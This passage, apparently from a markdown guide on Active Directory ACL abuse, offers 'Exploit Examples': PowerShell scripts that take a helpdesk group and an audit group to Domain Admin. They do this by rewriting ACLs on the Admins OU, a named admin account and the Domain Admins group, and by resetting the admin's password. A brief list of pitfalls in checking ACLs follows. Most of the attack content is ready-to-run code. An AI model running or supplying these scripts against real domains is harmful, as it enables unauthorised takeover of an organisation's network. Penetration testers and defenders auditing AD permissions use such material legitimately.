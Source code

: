 ### Exploit Examples  

#### HelpdeskOps → Admins OU → DA  
```powershell
# As HelpdeskOps member
$ouPath = "AD:OU=Admins,DC=corp,DC=local"
$acl = Get-Acl $ouPath
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\HelpdeskOps","GenericWrite","Allow", "bf967aba-0de6-11d0-a285-00aa003049e2")
$acl.AddAccessRule($rule)
Set-Acl -AclObject $acl $ouPath

# Modify DA user jsmith
$targetUser = "AD:CN=jsmith,CN=Users,DC=corp,DC=local"
$aclUser = Get-Acl $targetUser
$ruleUser = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\HelpdeskOps","GenericAll","Allow")
$aclUser.AddAccessRule($ruleUser)
Set-Acl -AclObject $aclUser $targetUser

# Reset password for jsmith
Set-ADAccountPassword -Identity jsmith -NewPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force)
Enable-ADAccount -Identity jsmith
```
Now login as `corp\jsmith:P@ssw0rd!` → Domain Admin.

#### AuditGroup → Users Container → DA  
```powershell
$usersPath = "AD:CN=Users,DC=corp,DC=local"
$acl = Get-Acl $usersPath
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\AuditGroup","WriteDacl","Allow","bf967aba-0de6-11d0-a285-00aa003049e2")
$acl.AddAccessRule($rule)
Set-Acl -AclObject $acl $usersPath

# Now grant GenericAll on Domain Admins to AuditGroup
$daGroup = "AD:CN=Domain Admins,CN=Users,DC=corp,DC=local"
$aclDA = Get-Acl $daGroup
$ruleDA = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\AuditGroup","GenericAll","Allow")
$aclDA.AddAccessRule($ruleDA)
Set-Acl -AclObject $aclDA $daGroup
```
Now members of `AuditGroup` can add themselves to Domain Admins.

### Common Pitfalls  
- Checking only top-level OUs. Objects deeper may have misconfigs.  
- Not verifying inheritance.  
- Confusing `Deny` vs `Allow` ACEs.
